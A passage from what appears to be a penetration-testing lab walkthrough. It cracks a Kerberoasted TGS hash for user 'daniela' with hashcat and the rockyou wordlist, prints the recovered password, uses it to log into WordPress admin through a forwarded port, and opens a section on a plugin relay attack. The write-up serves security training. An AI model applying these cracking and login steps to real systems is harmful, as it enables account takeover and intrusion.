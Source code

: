 Storing the hash and using hashcat to try and crack it:

{% code overflow="wrap" %}
```bash
kali@kali:~/beyond$ sudo hashcat -m 13100 daniela.hash /usr/share/wordlists/rockyou.txt --force
...
$krb5tgs$23$*daniela$BEYOND.COM$beyond.com/daniela*$b0750f4754ff26fe77d2288ae3cca539$0922083b88587a2e765298cc7d499b368f7c39c7f6941a4b419d8bb1405e7097891c1af0a885ee76ccd1f32e988d6c4653e5cf4ab9602004d84a6e1702d2fbd5a3379bd376de696b0e8993aeef5b1e78fb24f5d3c
...
3d3e9d5c0770cc6754c338887f11b5a85563de36196b00d5cddecf494cfc43fcbef3b73ade4c9b09c8ef405b801d205bf0b21a3bca7ad3f59b0ac7f6184ecc1d6f066016bb37552ff6dd098f934b2405b99501f2287128bff4071409cec4e9545d9fad76e6b18900b308eaac8b575f60bb:DANIelaRO123
...
```
{% endcode %}

With the cracked password, let's try and login to WordPress at **/wp-admin** via our forwarded port:

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

🎉 We're in! 🎉

### Abuse a WordPress Plugin for a Relay Attack

First let's gather information in WordPress, starting with configured users:

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption><p>Daniela is the only WordPress user</p></figcaption></figure>
